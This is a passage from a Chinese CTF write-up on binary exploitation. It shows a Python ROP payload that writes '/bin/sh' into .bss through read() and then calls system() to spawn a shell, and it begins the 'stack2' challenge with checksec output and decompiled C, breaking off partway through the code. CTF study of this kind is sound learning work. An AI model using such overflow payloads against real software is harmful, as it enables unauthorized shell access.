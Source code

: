 这个payload比较简短，看到另一种做法如下：

```py
#第一次结束后返回start的地址

ppp_addr=0x0804856c
#三次pop指令的地址
bss_addr=elf.bss()
payload2 ='A'*junk+p32(read_plt)+p32(ppp_addr)+p32(0)+p32(bss_addr)+p32(8)
#在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress
#read(0,bss_addr,8)把'/bin/sh'读到bss段上，因为bss段可执行
payload2+=p32(sys_addr)+p32(func_addr)+p32(bss_addr)
#用三次pop把指针指向了systemAddress，此时调用system()函数，再栈溢出把bss段上的内容('/bin/sh')当作参数传给system()调用
r.send(payload2)
r.send('/bin/sh')
```

思路值得学习

## stack2

首先checksec：

```bash
pluto@pluto-virtual-machine:~/Desktop$ checksec stack2
[*] '/home/pluto/Desktop/stack2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，嗯 回忆一下传参方式，是直接放在函数后面，没有用到寄存器的
看到有栈溢出保护，似乎先要泄露canary，继续。

程序很简单，修饰一些变量名后如下(忽略无关语句)：

```c
  int v3; // eax
  unsigned int stack_size; // [esp+18h] [ebp-90h]
  unsigned int choose; // [esp+1Ch] [ebp-8Ch]
  int v7; // [esp+20h] [ebp-88h]
  unsigned int j; // [esp+24h] [ebp-84h]
  int v9; // [esp+28h] [ebp-80h]
  unsigned int i; // [esp+2Ch] [ebp-7Ch]
  unsigned int k; // [esp+30h] [ebp-78h]
  unsigned int l; // [esp+34h] [ebp-74h]
  char number[100]; // [esp+38h] [ebp-70h]
  unsigned int canary; // [esp+9Ch] [ebp-Ch]

//blah blah blah
  puts("How many numbers you have:");
  __isoc99_scanf("%d", &stack_size);
  puts("Give me your numbers");
  for ( i = 0; i < stack_size && (signed int)i <= 99; ++i )
  {
    __isoc99_scanf("%d", &v7);
    number[i] = v7;
  }
  for ( j = stack_size; ; printf("average is %.2lf\n", (double)((long double)v9 / (double)j)) )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
```